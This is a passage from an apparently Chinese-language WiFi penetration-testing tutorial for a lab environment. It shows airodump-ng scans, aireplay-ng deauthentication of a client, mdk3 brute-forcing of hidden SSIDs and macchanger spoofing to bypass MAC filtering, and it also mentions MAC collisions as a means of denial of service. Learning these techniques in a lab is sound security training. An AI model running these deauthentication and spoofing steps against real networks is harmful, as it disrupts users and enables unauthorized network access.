Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    559 NetworkManager
    798 wpa_supplicant

PHY     Interface       Driver          Chipset

phy0    wlan0           rt2800usb       Ralink Technology, Corp. RT2870/RT3070
                (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
                (mac80211 station mode vif disabled for [phy0]wlan0)
```

------

## 5.2 扫描WiFi网络

我们可以使用它`airodump-ng`来扫描可用的 wifi 网络。

 

```shell
capybaralalale@htb[/htb]$ sudo airodump-ng -c 1 wlan0mon

CH  1 ][ Elapsed: 0 s ][ 2024-05-21 20:45 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 B2:C1:3D:3B:2B:A1  -47   0        9        0    0   1   54   WPA2 CCMP   PSK  <length: 12>                                
 D2:A3:32:13:29:D5  -28   0        9        0    0   1   54   WPA3 CCMP   SAE  <length:  8>                                
 A2:FF:31:2C:B1:C4  -28   0        9        0    0   1   54   WPA2 CCMP   PSK  <length:  4>                                

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 B2:C1:3D:3B:2B:A1  02:00:00:00:02:00  -29    0 -24      0        4   
```

从上面的输出中，我们可以看到有三个隐藏的 SSID。`<length: x>`符号表示 WiFi 网络名称的长度，其中 x 表示 SSID 中的字符数。

有多种方法可以获取隐藏 SSID 的名称。如果有客户端连接到 WiFi 网络，我们可以`aireplay-ng`向客户端发送解除身份验证请求。当客户端重新连接到隐藏的 SSID 时，系统将捕获该请求并显示 SSID。然而，由于 WPA3 具有 802.11w（受保护的管理帧， [PMF ），因此解除身份验证攻击在](https://www.wi-fi.org/beacon/philipp-ebbecke/protected-management-frames-enhance-wi-fi-network-security)[WPA3](https://github.com/aircrack-ng/aircrack-ng/issues/2539)网络`airodump-ng`上不起作用。在这种情况下，我们可以尝试暴力破解来获取 SSID 名称。

------

## 5.3 使用 Deauth 检测隐藏的 SSID

查找隐藏 SSID 的第一种方法是对连接到 WiFi 网络的客户端执行取消身份验证攻击，这样我们就可以在它们重新连接时捕获请求。从上面的`airodump-ng`扫描中，我们观察到一个带有 STATION ID 的客户端`02:00:00:00:02:00`连接到了 BSSID `B2:C1:3D:3B:2B:A1`。让我们开始`airodump-ng`在信道上进行捕获`1`，并使用它`aireplay-ng`向客户端发送取消身份验证请求。

我们应该开始`channel 1`使用 airodump-ng 嗅探我们的网络。

```shell-session
capybaralalale@htb[/htb]$ sudo airodump-ng -c 1 wlan0mon
```

为了强制客户端发送探测请求，需要断开客户端的连接。我们可以使用 aireplay-ng 来实现。


```shell
capybaralalale@htb[/htb]$ sudo aireplay-ng -0 10 -a B2:C1:3D:3B:2B:A1 -c 02:00:00:00:02:00 wlan0mon

12:34:56  Waiting for beacon frame (BSSID: B2:C1:3D:3B:2B:A1) on channel `
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|60 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|57 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|61 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|60 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|59 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|58 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|58 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|58 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|55 ACKs]
```

使用 发送取消身份验证请求后`aireplay-ng`，客户端重新连接到 WiFi 网络时，我们应该会看到隐藏的 SSID 名称出现在 中`airodump-ng`。此过程利用包含 SSID 名称的重新关联请求，使我们能够捕获并识别隐藏的 SSID。

```shell
capybaralalale@htb[/htb]$ sudo airodump-ng -c 1 wlan0mon

CH  1 ][ Elapsed: 0 s ][ 2024-05-21 20:45 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 B2:C1:3D:3B:2B:A1  -47   0        9        0    0   1   54   WPA2 CCMP   PSK  jacklighters

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 B2:C1:3D:3B:2B:A1  02:00:00:00:02:00  -29    0 -24      0        4         jacklighters
```

------

## 5.4 暴力破解隐藏的SSID

发现隐藏 SSID 的另一种方法是进行暴力破解攻击。我们可以使用[mdk3](https://github.com/charlesxsh/mdk3-master)之类的工具来执行此攻击。使用 mdk3，我们可以提供一个单词列表或指定 SSID 的长度，以便该工具自动生成潜在的 SSID 名称。

mdk3 的基本语法如下：


```usage
mdk3 <interface> <test mode> [test_ options]
```

mdk3 中的测试`p`模式参数代表基本探测和 ESSID 暴力破解模式。它提供以下选项：

| **选项** | **描述**                                                     |
| -------- | ------------------------------------------------------------ |
| `-e`     | 指定探测的 SSID。                                            |
| `-f`     | 从文件中读取行以强制隐藏 SSID。                              |
| `-t`     | 设置目标AP的MAC地址。                                        |
| `-s`     | 设置速度（默认：无限制，暴力破解模式下：300）。              |
| `-b`     | 使用完全暴力破解模式（仅推荐用于短 SSID）。此开关用于显示其帮助屏幕 |

### 5.4.1 暴力破解所有可能的值

为了对所有可能的值进行暴力破解，我们可以使用`-b`mdk3`test_option`中的 。我们可以为其设置以下选项。

- 大写字母 (u)
- 数字（n）
- 全部打印 (a)
- 小写和大写 (c)
- 大小写加数字 (m)


```shell
capybaralalale@htb[/htb]$ sudo mdk3 wlan0mon p -b u -c 1 -t A2:FF:31:2C:B1:C4

SSID Bruteforce Mode activated!


channel set to: 1
Waiting for beacon frame from target...


SSID is hidden. SSID Length is: 4.
Sniffer thread started

Got response from A2:FF:31:2C:B1:C4, SSID: "WIFI"
Last try was: WIFI
```

### 5.4.2 使用单词表进行暴力破解

要使用单词表进行暴力破解，我们可以使用mdk3 中`-f`的，`test_option`后跟单词表的位置。

```shell
capybaralalale@htb[/htb]$ sudo mdk3 wlan0mon p -f /opt/wordlist.txt -t D2:A3:32:13:29:D5

SSID Wordlist Mode activated!

Waiting for beacon frame from target...
Sniffer thread started

SSID is hidden. SSID Length is: 8.

Got response from D2:A3:32:1B:29:D5, SSID: "HTB-Wifi"
```

随着新发现的 SSID，如果我们拥有 PSK 或能够通过某种方式获取它，我们就能连接到相关网络。在下一节中，我们将深入探讨接入点可能拥有的另一项基本控制功能，即 MAC 地址过滤（白名单）。

# 6 绕过 Mac 过滤

------

绕过 Wi-Fi 网络中的 MAC 地址过滤是一种规避许多无线路由器实施的基本安全措施的技术。MAC 地址过滤是指仅允许具有特定 MAC（媒体访问控制）地址的设备连接到网络。虽然这通过限制已知设备的访问增加了一层安全性，但并非万无一失。熟练的攻击者可以利用该系统中的漏洞进行未经授权的访问。此过程通常涉及 MAC 地址欺骗，攻击者会更改其设备的 MAC 地址以匹配允许的设备，从而获得网络访问权限。

假设我们尝试连接到启用了 MAC 地址过滤的网络。如果我们的 MAC 地址未经授权，仅仅知道密码可能不够。幸运的是，我们通常可以通过 MAC 地址欺骗来克服这个障碍，从而绕过过滤并获得网络访问权限。

首先，我们要用 airodump-ng 侦察我们的网络。

## 6.1 扫描可用的Wifi网络

```shell
capybaralalale@htb[/htb]$ sudo airodump-ng wlan0mon

 CH  37 ][ Elapsed: 3 mins ][ 2024-05-18 22:14  ][ WPA handshake: 52:CD:8C:79:AD:87

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 52:CD:8C:79:AD:87  -47      407      112    0   1   54   WPA2 CCMP   PSK  HTB-Wireless                              

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 52:CD:8C:79:AD:87  3E:48:72:B7:62:2A  -29    0 - 1     0        68         HTB-Wireless
 52:CD:8C:79:AD:87  2E:EB:2B:F0:3C:4D  -29    0 - 9     0        78  EAPOL  HTB-Wireless
 52:CD:8C:79:AD:87  1A:50:AD:5A:13:76  -29    0 - 1     0        88  EAPOL  HTB-Wireless
 52:CD:8C:79:AD:87  46:B6:67:4F:50:32  -29    0 -36     0        90  EAPOL  HTB-Wireless
```

从输出中，我们可以看到 ESSID`HTB-Wireless`已在 上可用`channel 1`，并且有多个客户端连接到它。假设我们已经获取了 WiFi 网络的凭据`HTB-Wireless`，密码为`Password123!!!!!!`。尽管拥有正确的登录信息，但我们的连接尝试仍会受到网络强制执行的 MAC 地址过滤的阻碍。此安全措施根据 MAC 地址限制只有授权设备才能访问。因此，即使密码正确，我们的设备也无法连接到网络。

为了绕过 MAC 地址过滤，我们可以伪造 MAC 地址，使其与某个已连接的客户端匹配。然而，这种方法经常会导致冲突事件，因为两个具有相同 MAC 地址的设备无法同时在同一个网络中共存。

更有效的方法是，要么通过取消身份验证攻击强制断开合法客户端的连接，从而释放可用的 MAC 地址，要么等待客户端自然断开连接。此策略在设备频繁连接和断开的“自带设备”(BYOD) 网络中尤其有效。

有时，当我们将 MAC 地址配置为与客户端或接入点的 MAC 地址匹配时，可能会在数据链路层遇到冲突事件。当我们模拟的客户端当前未连接到目标网络时，这种绕过 MAC 过滤的技术最有效。然而，在某些情况下，这些冲突事件对我们有利，可以作为拒绝服务 (DOS) 攻击的手段。在`dual-band`或 的情况下`multiple access point network`，我们或许可以利用连接到同一无线基础设施内不同接入点的客户端的 MAC 地址。

我们还可以检查 ESSID 是否有可用的 5 GHz 频段。如果 5 GHz 频段可用，我们可以尝试使用该频率连接到网络，这样可以避免冲突事件，因为大多数客户端都连接到 2.4 GHz 频段。

## 6.2 扫描在 5Ghz 频段运行的网络

```shell
capybaralalale@htb[/htb]$ sudo airodump-ng wlan0mon --band a

 CH  48 ][ Elapsed: 3 mins ][ 2024-05-18 22:14  ][ WPA handshake: 52:CD:8C:79:AD:87

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 52:CD:8C:79:AD:87  -28       11        0    0  48   54   WPA2 CCMP   PSK  HTB-Wireless-5G                              

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 (not associated)   3E:48:72:B7:62:2A  -29    0 - 1     0        6          HTB-Wireless
 (not associated)   2E:EB:2B:F0:3C:4D  -29    0 - 1     0        9          HTB-Wireless
 (not associated)   1A:50:AD:5A:13:76  -29    0 - 1     0        7          HTB-Wireless
 (not associated)   46:B6:67:4F:50:32  -29    0 - 1     0        12         HTB-Wireless
```

从上面的输出中，我们可以确认`HTB-Wireless-5G`具有相同 BSSID 的 ESSID 也在该`5 GHz`频段上运行。由于目前没有客户端连接到 5 GHz 频段，我们可以使用[macchanger](https://github.com/alobbs/macchanger)等工具伪造 MAC 地址，匹配连接到 2.4 GHz 频段的某个客户端，并连接到 5 GHz 网络，而不会发生任何冲突事件。

在更改我们的 MAC 地址之前，让我们先停止无线接口上的监控模式。

```shell-session
capybaralalale@htb[/htb]$ sudo airmon-ng stop wlan0mon
```



在更改 MAC 地址之前，我们先检查一下当前的 MAC 地址。我们可以通过在终端中运行以下命令来执行此操作

```shell
capybaralalale@htb[/htb]$ sudo macchanger wlan0

Current MAC:   00:c0:ca:98:3e:e0 (ALFA, INC.)
Permanent MAC: 00:c0:ca:98:3e:e0 (ALFA, INC.)
```

如输出所示，我们的当前 MAC 地址和永久 MAC 地址分别为`00:c0:ca:98:3e:e0`。让我们使用`macchanger`来更改 MAC 地址，使其与连接到 2.4 GHz 网络的某个客户端匹配，具体来说就是`3E:48:72:B7:62:2A`。此过程包括禁用`wlan0`接口、执行`macchanger`命令调整 MAC 地址，以及最终重新激活`wlan0`接口。遵循这些步骤将有效地将我们设备的 MAC 地址与 2.4 GHz 网络上指定客户端的地址同步。

## 6.3 禁用 wlan0 接口

```shell-session
capybaralalale@htb[/htb]$ sudo ifconfig wlan0 down
```

## 6.4 更改 MAC 地址

```shell
capybaralalale@htb[/htb]$ sudo macchanger wlan0 -m 3E:48:72:B7:62:2A

Current MAC:   00:c0:ca:98:3e:e0 (ALFA, INC.)
Permanent MAC: 00:c0:ca:98:3e:e0 (ALFA, INC.)
New MAC:       3e:48:72:b7:62:2a (unknown)
```

## 6.5 启用 wlan0 接口

```shell
capybaralalale@htb[/htb]$ sudo ifconfig wlan0 up
```

恢复 wlan0 接口后，我们可以使用该`ifconfig`命令确认 MAC 地址确实已修改。此步骤可确保我们的设备现在采用我们之前指定的新 MAC 地址，并与连接到 2.4 GHz 网络的所需客户端的 MAC 地址保持一致。

```shell
capybaralalale@htb[/htb]$ ifconfig wlan0

wlan0: flags=4099<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        ether 3e:48:72:b7:62:2a  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

现在，我们的 MAC 地址已更改为与连接到 2.4 GHz 网络的客户端之一匹配，我们可以继续连接到名为 的 5 GHz WiFi 网络`HTB-Wireless-5G`。这可以通过系统网络管理器的图形用户界面 (GUI) 完成，也可以通过命令行使用 NetworkManager 的命令行界面 (nmcli) 等工具完成。




成功连接到 5 GHz 网络后，我们可以`ifconfig`再次运行该命令来验证连接状态。这次，我们应该观察到 WiFi 网络已分配了一个由 DHCP 分配的 IP 地址。

```shell
capybaralalale@htb[/htb]$ ifconfig

wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.2.73  netmask 255.255.255.0  broadcast 192.168.0.255
        ether 2e:87:ba:cf:b7:53  txqueuelen 1000  (Ethernet)
        RX packets 565  bytes 204264 (199.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 32  bytes 4930 (4.8 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

一旦连接到 WiFi 网络，我们就可以扫描 IP 范围内连接到同一网络的其他客户端。